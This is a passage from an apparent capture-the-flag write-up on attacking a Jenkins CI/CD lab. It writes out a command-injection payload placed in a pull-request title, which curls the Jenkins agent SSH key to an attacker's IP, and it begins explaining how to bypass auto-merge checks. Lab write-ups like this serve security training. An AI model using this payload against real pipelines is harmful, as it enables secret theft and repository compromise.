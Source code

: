 ```apt install gitleaks```
![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F0ozxUoEgqX8lSXt4wQpe%2Fuploads%2F0xZuXaO1tsmhFuBih1eV%2Fimage.png?alt=media&token=a92e4b56-66fd-4d1c-a9c5-16a8cdc412df) 


Generally we could gain rce using this techique but let's pull interesting information from the server such as an SSH key from the env variables! ,because Jenkins likes the SSH keys to be stored in an env variable named  :   _JENKINSAGENTSSHPUBKEY_ . If we could access that we could use that key to modify the main branch and get the flag9! 

Let's put that to practise . I'll fork the repo ,clone it and make some random changes.
![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F0ozxUoEgqX8lSXt4wQpe%2Fuploads%2FObbGYO89KeNSyC8IqnAA%2Fimage.png?alt=media&token=947c239a-4c70-41f7-86b4-22b3d11bbb9b) 

![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F0ozxUoEgqX8lSXt4wQpe%2Fuploads%2F1QeMgY14KINapWfbdvhU%2Fimage.png?alt=media&token=59a16bd3-902b-48a4-81cc-0e4d42fed7fb) 


Submit a PR 

![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F0ozxUoEgqX8lSXt4wQpe%2Fuploads%2FDV3t9ptzNsezp0FbHVwA%2Fimage.png?alt=media&token=d8c180c5-471f-4a3a-8d5a-e5eddf0549ea)

![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F0ozxUoEgqX8lSXt4wQpe%2Fuploads%2FqTEr5MmtPjD0ixKkFyBo%2Fimage.png?alt=media&token=62e36e38-97cd-4be3-9bdc-ba4a535aa5f0) 

Now modifying the title to a command injection payload :  
``` `curl -H "Content-Type: application/json" -X POST -d '{"msg":"'" $JENKINS_AGENT_SSH_PUBKEY  "'"}' 192.168.222.175:9001/posts` ```  




![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F0ozxUoEgqX8lSXt4wQpe%2Fuploads%2FYIy2IpcEGFm0kJI5MAI4%2Fimage.png?alt=media&token=c88e301b-42c0-4b44-b2ff-5f7c3e110521) 

Now we start a new a [json http server](https://github.com/typicode/json-server) to catch the ssh key coming our way . After a few seconds we see the remote server making a JSON request to us with the SSH keys !

![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F0ozxUoEgqX8lSXt4wQpe%2Fuploads%2FX9xYt3Ckg0TPDnlZ4PZs%2Fimage.png?alt=media&token=78a1b7b3-939b-45b8-99f9-eb631bff2d1e)

Note : I was unclear what to do once the SSH public key was obtained ! . So I left this challenge unsolved as I was able to proceed furthur as the solutions didn't help me much either ! 

**Mock turtle**  :

![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F0ozxUoEgqX8lSXt4wQpe%2Fuploads%2FoXNGIRtZ6CK5Ay6ZlL1n%2Fimage.png?alt=media&token=64f5759d-819b-43a0-b477-66b29abd15db)  

This is the last and the final challenge in this CTF . Cloning the repo and reading the Jenkins file provides three important points about the pipeline configuration. 
The auto-merge code checks for three conditions that should be met:

![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F0ozxUoEgqX8lSXt4wQpe%2Fuploads%2FketmpUtWLr102Powv3wG%2Fimage.png?alt=media&token=32f5a819-67b3-42f8-ad53-fec2ae35b395)

- No words are added in the pull request. When just the version is updated, one line (and word) is considered removed by the git diff check, and one word is added, so 0 words are added or removed in total.
- Version structure is left the same.
- Version file is changed.

We need to bypass these checks . We will work on a new brach and submit a PR 
```